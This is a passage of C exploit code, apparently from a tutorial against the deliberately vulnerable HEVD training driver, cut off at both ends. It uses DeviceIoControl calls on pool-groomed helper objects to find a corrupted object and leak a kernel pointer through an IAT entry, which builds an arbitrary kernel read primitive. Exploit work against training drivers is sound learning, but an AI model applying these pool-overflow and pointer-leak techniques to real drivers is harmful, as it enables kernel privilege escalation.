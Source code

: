 ```c
            driverHandle,
            0x0022206b,
            &helperobjectArray[i],
            sizeof(helperobjectArray[i]),
            &helperobjectArray[i],
            sizeof(helperobjectArray[i]),
            &bytesreturnedreadPrimtitve,
            NULL
        );

        // Loop until a Name value other than the original NOPs is found
        if (placeholder != 0x9090909090909090)
        {
            printf("[+] Found the overflowed object overwritten with main ARW_HELPER_NON_PAGED_POOL_NX object!\n");
            printf("[+] PARW_HELPER_OBJECT_IO->HelperObjectAddress: 0x%p\n", helperobjectArray[i].HelperObjectAddress);

            // Assign the index
            index = i;

            printf("[+] Array index of global array managing groomed objects: %d\n", index);

            // Break the loop
            break;
        }
    }

    // IAT entry from HEVD.sys which points to nt!ExAllocatePoolWithTag
    unsigned long long ntiatLeak = hevdBase + 0x2038;

    // Print update
    printf("[+] Target HEVD.sys address with pointer to ntoskrnl.exe: 0x%llx\n", ntiatLeak);

    // Assign the target address to the corrupted object
    helperobjectArray[index].Name = &ntiatLeak;

    // Set the Name member of the "corrupted" object managed by the global array. The main object is currently set to the Name member of one of the sprayed ARW_HELPER_OBJECT_NON_PAGED_POOL_NX that was corrupted via the pool overflow
    DeviceIoControl(
        driverHandle,
        0x00222067,
        &helperobjectArray[index],
        sizeof(helperobjectArray[index]),
        NULL,
        NULL,
        &bytesreturnedreadPrimtitve,
        NULL
    );

    // Declare variable that will receive the address of nt!ExAllocatePoolWithTag and initialize it
    unsigned long long ntPointer = 0x9090909090909090;

    // Setting the Name member of the main object to the address of the ntPointer variable. When the Name member is dereferenced and bubbled back up to user mode, it will overwrite the value of ntPointer
    mainObject.Name = &ntPointer;

    // Perform the "Get" operation on the main object, which should now have the Name member set to the IAT entry from HEVD
    DeviceIoControl(
        driverHandle,
```